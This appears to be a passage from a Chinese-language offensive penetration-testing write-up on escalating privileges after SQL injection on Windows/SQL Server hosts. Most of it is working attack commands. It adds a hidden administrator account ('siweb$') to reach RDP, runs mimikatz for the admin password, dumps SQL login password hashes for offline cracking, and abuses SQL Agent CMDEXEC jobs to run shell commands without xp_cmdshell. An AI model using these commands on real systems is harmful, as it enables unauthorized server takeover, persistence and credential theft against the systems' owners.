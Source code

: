 之后就是命令执行提权了

```
/* 没有任何安全措施的情况下 */

net user siweb$ siweb /add
net localgroup administrators siweb$ /add

直接就能连入3389了，再用mimikatz跑一下原管理员账号密码，成功拿下一台服务器
```

### <a class="reference-link" name="2.4%20%E6%8F%90%E6%9D%83"></a>2.4 提权

事实上，我自己感觉从08server开始，提权才是最麻烦的事情

<a class="reference-link" name="2.4.1%20%E6%99%AE%E9%80%9A%E8%B4%A6%E6%88%B7"></a>**2.4.1 普通账户**

从sql注入到网站中，如果只是普通账户（Public权限），当然数据是可以拿到，但是不能执行系统命令，可以通过备份数据库的方式进行写入webshell，再根据<br>
服务器中的其他东西，去试着提权。

还有一种方式，拿到加密后的SQL Server sa账户密码，使用johnny爆破

```
select name,master.sys.fn_sqlvarbasetostr(password_hash) from master.sys.sql_logins
```

[http://www.openwall.com/john/j/john180j1w.zip](http://www.openwall.com/john/j/john180j1w.zip)<br>[http://openwall.info/wiki/_media/john/johnny/johnny_2.2_win.zip](http://openwall.info/wiki/_media/john/johnny/johnny_2.2_win.zip)<br>
成功后可以使用sa权限登入账户

<a class="reference-link" name="2.4.2%20Sa"></a>**2.4.2 Sa**

sa账户提权，基本上是走系统命令执行的路子，开启存储过程，执行命令，建议使用 SQLTOOLS

**不使用xp_cmdshell 提权**

```
use msdb;
exec sp_delete_job @job_name='abc82'
exec sp_add_job @job_name='abc82'
exec sp_add_jobstep @job_name='abc82',@step_name = 'Exec my sql',@subsystem='CMDEXEC',@command='cmd.exe /c whoami&gt;c:T3tmp.log'
exec sp_add_jobserver @job_name = 'abc82',@server_name = N'(local)'
exec sp_start_job @job_name='abc82'

if object_id('siweb3file') is not null drop table siweb3file
create table siweb3file (filev nvarchar(4000) null)
BULK INSERT siweb3file FROM 'c:T3tmp.log'

SET NO_BROWSETABLE ON

select * from siweb3file

SET NO_BROWSETABLE OFF

select * from siweb3file
if object_id('siweb3file') is not null drop table siweb3file
```

